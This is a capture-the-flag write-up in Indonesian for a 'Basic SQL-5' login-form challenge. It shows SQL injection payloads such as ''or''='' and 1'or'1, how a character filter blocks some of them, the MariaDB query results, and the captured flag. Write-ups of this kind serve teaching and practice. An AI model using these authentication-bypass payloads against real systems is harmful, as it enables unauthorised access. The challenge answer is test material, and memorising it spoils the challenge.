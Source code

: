<h1><b>Basic SQL-5</h1></b>
<pre>
Login Form (Username & Password)
</pre>
</b><h3>Solution</h3></b>
<p>Lakukan injection sederhana <b>'or''='</b> yang akan me-return nilai 1(True) untuk username dan password, berikut eksekusi pada mysql dan form</p>

```mysql
MariaDB [CTF]> select * from SQL_Challenge6 where username=''or''='' and password=''or''='';
+----------+-----------------------------+
| username | password                    |
+----------+-----------------------------+
| admin    | *************************** |
+----------+-----------------------------+
1 row in set (0.000 sec)

MariaDB [CTF]> select ''or''='' and ''or''='';
+-------------------------+
| ''or''='' and ''or''='' |
+-------------------------+
|                       1 |
+-------------------------+
1 row in set, 5 warnings (0.000 sec)

```
<pre align='center'>
<b>Illegal Character Detected</b>
</pre>
<p>Ternyata hasilnya gagal dengan pesan diatas, yang memungkinkan terdapat filter string pada username dan password</p>
<p align='justify'>Selanjutnya, mari kita coba dengan injection tanpa tanda komentar "# atau -- -" yang akan membypass bagian password, dan berikut hasilnya</p>

```mysql
MariaDB [CTF]> select * from SQL_Challenge6 where username = 'admin';
+----------+-----------------------------+
| username | password                    |
+----------+-----------------------------+
| admin    | VenomCTF{4lm0st_a11_Filt3r} |
+----------+-----------------------------+
1 row in set (0.000 sec)
```
<pre align='center'>
<b>Illegal Character Detected</b>
</pre>
<p>Ternyata hasilnya masih sama dengan sebelumnya, juga terdapat filter</p>
<p>Sekarang mari kita coba dengan union injection "1' union select 1,2#" dan hasilnya masih sama</p>
<p align='justify'>Terakhir, dari beberapa filter yang terjadi, filter yang memungkinan yaitu [=,#,-- -,select], sekarang kita akan melakukan injection biasa tanpa string yang sudah difilter, dengan perintah <b>1'or'1</b> pada username dan password yang juga menghasilkan nilai 1(True). Berikut hasilnya</p>

```mysql
MariaDB [CTF]> select * from SQL_Challenge6 where username='1'or'1' and password='1'or'1';
+----------+-----------------------------+
| username | password                    |
+----------+-----------------------------+
| admin    | VenomCTF{4lm0st_a11_Filt3r} |
+----------+-----------------------------+
1 row in set (0.000 sec)

MariaDB [CTF]> select '1'or'1' and '1'or'1';
+-----------------------+
| '1'or'1' and '1'or'1' |
+-----------------------+
|                     1 |
+-----------------------+
1 row in set (0.000 sec)
```
<pre align='center'>
<b>Your login success
Welcome admin, Flag VenomCTF{4lm0st_a11_Filt3r}</b>
</pre>
<p>Hasilnya succes, ternyata string [',or] tidak terfilter oleh fungsi php</p>
</b><h3>Flag</h3></b>
<pre>
VenomCTF{4lm0st_a11_Filt3r}
</pre>
